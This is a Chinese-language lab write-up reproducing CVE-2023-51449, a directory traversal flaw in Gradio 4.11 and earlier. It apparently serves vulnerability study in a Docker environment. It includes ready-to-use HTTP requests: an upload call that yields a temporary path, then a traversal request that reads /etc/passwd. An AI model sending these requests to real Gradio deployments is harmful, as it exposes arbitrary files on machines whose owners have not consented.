 # Gradio `file` 目录遍历漏洞（CVE-2023-51449）

Gradio 是一个用于创建机器学习模型交互式界面的 Python 库，通过Gradio，可以快速地为模型构建一个可视化的、易于使用的 Web 界面，无需编写任何前端代码。

Gradio 4.11 及以下版本，在未启用身份验证时如果知道要查找的文件路径，就可以使用公共 URL 访问运行 Gradio 应用程序的机器上的任意文件（例如，如果演示是使用 `share=True` 创建的，或者在 Hugging Face Spaces 上创建的）。

参考链接：

+ https://github.com/gradio-app/gradio/pull/6833

+ https://github.com/gradio-app/gradio/tree/gradio%404.10.0

## 环境启动

执行如下命令启动 Gradio 环境：

```
docker compose up -d
```

启动成功后访问，默认没有身份验证。

```
http://your-ip:7860
```

## 漏洞复现

使用 upload 接口随便上传一段内容，需要获取到一个可访问的文件路径。

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--


```

![image-20250424134122049](1.png)

得到一个可访问的文件路径后使用 file 接口访问并使用目录遍历读取文件，即可成功读取。

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip
```

![image-20250424134351720](2.png)

